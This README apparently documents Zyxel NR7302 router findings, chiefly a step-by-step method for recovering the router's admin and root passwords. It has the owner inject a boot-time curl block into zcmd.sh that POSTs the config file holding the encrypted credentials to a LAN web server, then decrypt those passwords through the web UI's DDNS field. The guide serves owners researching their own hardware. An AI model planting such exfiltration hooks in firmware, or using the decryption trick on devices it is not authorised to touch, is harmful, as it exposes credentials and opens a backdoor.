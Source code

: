 # Zyxel NR7302 Findings 

This is a collection of firmware- and hardware-related findings for the Zyxel NR7302 router. Most of these findings could also be applied to the NR7301 and NR7303.


[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/ohne)

## Admin & Root Password Retrieval

ATTENTION: There is a high risk of bricking your device, either soft or hard. I absolutely do not accept any responsibility. If you follow any of these instructions, you must accept that your device may become unusable. Know what you are doing. (However, if you know how to solder, the device is almost impossible to brick.)

### Goal

- NR7302 sends its zcfg_config.json to a local web server via HTTP POST Request
- All (root, supervisor, admin) passwords are encrypted inside the config file
- Encrypted passwords can be decrypted via Zyxel Web Interfaces (DDNS function --> paste password; save; reload UI; make password visible)

### Procedure

1. Extract existing firmware upgrade file 
2. Extract ubifs image out of oemapp.ubi
3. Extract ubifs image
4. Add HTTP POST request to zcmd.sh
5. Repack oemapp.ubi
6. Repack firmware
7. Flash firmware via zycast
8. Run local webserver to receive config file


### Step by Step Guide 

0. Pre-Requirements:
      1. Create a Python virtual environment: python3 -m venv venv
      2. Activate virtual environment: source venv/bin/activate
   1. Install ubi_reader: 
      1. git clone https://github.com/jrspruitt/ubi_reader
      2. cd ubi_reader
      3. pip3 install ubi_reader
1. Download one of the existing Telekom firmwares for NR7302 (e.g. 100ACHA4b5_F0.bin)
2. Extract firmware with binwalk: ``binwalk -e 100ACHA4b5_F0.bin``
3. Change into output folder: ``cd _100ACHA4b5_F0.bin.extracted``
4. Rename oemapp.ubi to oemapp_original.ubi: ``mv oemapp.ubi oemapp_original.ubi``
5. Download ``rebuild_oemapp.sh``into folder with ``wget https://raw.githubusercontent.com/davidohne/Zyxel_NR7302/refs/heads/main/firmware/rebuild_oemapp.sh``
6. Extract oemapp.ubi: ``bash rebuild_oemapp.sh -e oemapp_original.ubi``
7. Change into squashfs-root folder: ``cd squashfs-root``
8. Add HTTP request paragraph to /etc/init.d/zcmd.sh:
   1. Add 90 seconds after boot post request part right before ``exit 0`` (Take care, it has to be exit 0!!):
   ```
   # ----------  Background‑Upload 90 s after Boot  ----------
        (
            sleep 90
            FILE=/xdata/zcfg_config.json
            DEST=http://192.168.1.4:8080
            if [ -f "$FILE" ]; then
                echo "[zcmd] Versuche $FILE an $DEST zu senden" > /dev/console
                curl -s -X POST -H "Content-Type: application/json" --data-binary @"$FILE" "$DEST" \
                  && echo "[zcmd] Upload erfolgreich" > /dev/console \
                  || echo "[zcmd] Upload fehlgeschlagen" > /dev/console
            else
                echo "[zcmd] WARN: $FILE nicht gefunden – kein Upload" > /dev/console
            fi
            ) &
        # ------------------------------------------------------- 
    ```

    2. OPTIONAL: De-Brick Debug Mode (Device is flashing green):
        1. Add the following line to the first line of the if-fe part of: ``if [ -f /xdata/.zdbg ]; then``:
        ``mv -f /xdata/.zdbg /xdata/zdbg.disabled``
9. Save the zcmd.sh file
10. Change directory to _100ACHA4b5_F0.bin.extracted again
11. Run rebuild_oemapp.sh extraction script again to re-pack the oemapp.ubi:
    - ``bash rebuild_oemapp.sh -r oemapp_original.ubi squashfs-root oemapp.ubi``
12. Download ``rebuild_firmware.sh`` with: ``wget https://raw.githubusercontent.com/davidohne/Zyxel_NR7302/refs/heads/main/firmware/rebuild_firmware.sh``
13. Execute script and answer all questions to rebuild the firmware with the new oemapp.ubi: ``bash rebuild_firmware.sh``
14. ATTENTION: Validation will show two WARNings, which is normal: Header-CRC incorrect and Image-CRC incorrect --> All other validations must succeed
15. Flash the router via Zycast (see instructions in zycasting folder)
16. After you've flashed the router successful, 90 seconds after boot the router will send its zcfg_config.json via HTTP POST request to 192.168.1.4:8080
17. Your host machine (PC) which is connected has to be configured with the static IP 192.168.1.4
18. To run a simple Python webserver you can execute the ``receive_zcfg_webserver.py``Python script: ``wget https://raw.githubusercontent.com/davidohne/Zyxel_NR7302/refs/heads/main/firmware/receive_zcfg_webserver.py``
    -  Execute: ``python3 receive_zcfg_webserver.py``and wait for the router to reboot. After around 110 seconds the server receives the configuration file and saves it automatically
    -  You can decrypt the password using a working Zyxel WebUI by adding dummy data to the DDNS Settings and the _encrypt_ part from the zcfg_config.json as password. Reload the WebUI and click the button to see the password in plain text.
19. IMPORTANT: You have now implemented a significant security vulnerability to your device. As soon as you've received the passwords, flash the ORIGINAL/NOT-EDITED firmware to the router via the web interface to close the vulnerability. THIS IS A MANDATORY STEP!

        
